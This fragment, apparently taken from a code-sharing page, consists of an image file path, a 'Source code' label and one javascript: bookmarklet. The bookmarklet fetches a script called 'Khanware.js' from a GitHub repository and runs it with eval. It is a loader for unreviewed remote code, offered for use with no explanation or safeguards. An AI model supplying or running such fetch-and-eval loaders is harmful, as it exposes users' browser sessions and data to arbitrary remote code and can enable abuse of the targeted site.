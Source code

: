 javascript:fetch("https://raw.githubusercontent.com/Plszin/test/main/Khanware.js").then(t=>t.text()).then(eval);
